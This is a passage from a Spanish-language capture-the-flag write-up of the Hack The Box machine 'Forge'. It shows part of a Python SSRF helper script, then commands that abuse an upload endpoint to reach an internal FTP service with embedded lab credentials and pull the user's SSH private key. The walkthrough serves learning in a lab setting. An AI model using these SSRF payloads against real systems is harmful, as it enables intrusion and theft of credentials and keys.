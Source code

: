 ```python
}
p = requests.post(post_url, data=post_data)
soup = BeautifulSoup(p.text, 'html.parser')
link = soup.findAll("a")[2].text

print("-"*len(link))
print(link)
print("-"*len(link))

g = requests.get(link)
print(g.text)
```
{: file="upload.py" }

# Acceso inicial

Con toda la información que tenemos, la idea es construir una cadena que haga un **GET** a ```admin.forge.htb/upload``` y le pase como parámetro una string de conexión al **ftp** local. 

Las autenticación al ftp se puede incluir en la misma URL siguiendo esta estructura: 

```plaintext
ftp://<username>:<password>@<host><path>
``` 

* ```python3 upload.py 'http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@ADMIN.FORGE.HTB/'```

![](/images/HTB/Forge/55-user-home.png)

Una vez ejecutado el script con nuestra cadena especialmente diseñada, vemos lo que parece ser el **home** del usuario ```user```, ya que se encuentra la flag ```user.txt``` dentro de este directorio.

Sin mucho más explorar dentro de este **ftp**, intenté ingresar por **ssh** con las credenciales obtenidas para recibir el siguiente mensaje: ***user@forge.htb: Permission denied (publickey)***. Esto nos indica que ha sido deshabilitada la autenticación por contraseña para este usuario, por lo tanto, la opción sería ingresar mediante una llave **id_rsa**.

Volviendo al ftp y considerando que no hay otros directorios de interés que sean visibles, podemos suponer que existe el directorio ```.ssh``` y por ende, una ```id_rsa``` dentro de él.


* ```python3 upload.py 'http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@ADMIN.FORGE.HTB/.ssh/id_rsa'```
